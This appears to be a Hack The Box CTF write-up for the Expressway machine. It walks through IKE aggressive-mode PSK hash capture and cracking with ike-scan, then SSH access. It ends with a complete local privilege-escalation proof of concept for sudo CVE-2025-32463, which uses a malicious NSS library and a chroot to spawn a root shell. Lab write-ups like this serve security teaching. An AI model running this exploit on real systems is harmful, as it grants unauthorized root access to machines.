 ```yaml
---
title: Expressway Writeup
date: 2025-10-01 20:00:00 +0000
categories:
  - Writeups
lang: en
tags:
  - HTB machines
  - IKE
  - VPN
description: Expressway HTB Writeup
image:
  path: '/assets/img/images/posts/expressway/Pasted image 20251001183550.png'
---
```


### Expressway Writeup

We start with Nmap to check for open ports

![[2025-10-01_21-43.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-43.png" | relative_url }}){: width="85%" } 

to get more details about version of SSH `-p 22 -sVC` to check for any outdated version or any interesting info.

![[2025-10-01_21-45.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-45.png" | relative_url }}){: width="85%" }

As this does not seem to be a way in (but at least we can confirm we have a `Debian` target based on the output.) we can also try to check for UDP ports, I found port 500 which Nmap says is probably the service `isakmp` (**Internet Security Association and Key Management Protocol**), having that port open

![[2025-10-01_21-51.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-51.png" | relative_url }}){: width="85%" }

I found this useful cheat sheet on [Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html) about pentesting port `500`.

Output:
![[Screenshot From 2025-10-01 21-52-23.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-52-23.png" | relative_url }}){: width="85%" }

`1 returned handshake; 0 returned notify: This means the target is configured for IPsec and is willing to perform IKE negotiation.`

### Before proceeding let's take a moment to understand IKE.

**IKE (Internet Key Exchange)** is the protocol used to establish secure tunnels in IPsec VPNs. It operates in two modes

**Main Mode**
it builds the IKE Security Association in six steps. First, the initiator sends proposals for encryption and authentication, and the responder picks one. Then they exchange Diffie-Hellman keys and other data to create a shared secret. Finally, both sides authenticate each other. After this, the channel is encrypted, and IPSec negotiation (Quick Mode) begins.

**Aggressive Mode**  
sets up the IKE Security Association in just three messages, which makes it faster than Main Mode. The initiator sends all its details first, the responder replies with its proposal, key exchange data, and identity, and then the initiator confirms. Quick and simple. but here’s the problem, both identities are sent in plain text before the channel is secure.

If you’re using a pre-shared key (PSK), it gets worse. The second and third messages include hashes based on the PSK, and these are also exposed. An attacker can capture them and run offline brute-force or dictionary attacks to recover the PSK.

with that in mind we can use `ike-scan` to try to use aggressive mode with the target with `-A`

![[Screenshot From 2025-10-01 21-52-38.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-52-38.png" | relative_url }}){: width="85%" }

As the target accepts aggressive mode it is useful for us as we can capture the hash during the handshake process we tell `ike-scan` to save the hash on the file `hash` using `--pskcrack`

![[Screenshot From 2025-10-01 21-53-56.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-53-56.png" | relative_url }}){: width="85%" }

![[2025-10-01_21-55.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-55.png" | relative_url }}){: width="85%" }

also we get

**The ID from the output of ike-scan:** `ike@expressway.htb` so `ike` could be used as our user to log in to SSH

To crack the hash we use `psk-crack` specify wordlist with `-d` and the `hash` file we captured

after cracking we get
`freakingrockstarontheroad`

And use it to SSH to the target.

![[Screenshot From 2025-10-01 21-55-58.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-55-58.png" | relative_url }}){: width="85%" }

![[Screenshot From 2025-10-01 21-56-51.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-56-51.png" | relative_url }}){: width="85%" }

And we got user flag!

While doing some enumeration, we run `sudo -V` to see the current version.

![[Screenshot From 2025-10-01 21-57-28.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-57-28.png" | relative_url }}){: width="85%" }

And with a little bit of help from `searchsploit`.

![[2025-10-01_21-57.png]]({{ "assets/img/images/posts/expressway/2025-10-01_21-57.png" | relative_url }}){: width="85%" }

to our pleasant surprise it is vulnerable.

to get root we can use this exploit CVE-2025-32463.

```bash
#!/bin/bash
# sudo-chwoot.sh – PoC CVE-2025-32463
set -e

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd "$STAGE"

# 1. NSS library
cat > woot1337.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void woot(void) {
    setreuid(0,0);          /* change to UID 0 */
    setregid(0,0);          /* change  to GID 0 */
    chdir("/");             /* exit from chroot */
    execl("/bin/bash","/bin/bash",NULL); /* root shell */
}
EOF

# 2. Mini chroot with toxic nsswitch.conf
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc            # make getgrnam() not fail

# 3. compile libnss_
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "[*] Running exploit…"
sudo -R woot woot                 # (-R <dir> <cmd>)
                                   # • the first “woot” is chroot
                                   # • the second “woot” is and inexistent
command
                                   #   (only needs resolve the user)

rm -rf "$STAGE"
```

![[Screenshot From 2025-10-01 21-59-56 3.png]]({{ "assets/img/images/posts/expressway/Screenshot From 2025-10-01 21-59-56 3.png" | relative_url }}){: width="85%" }

And we get root.
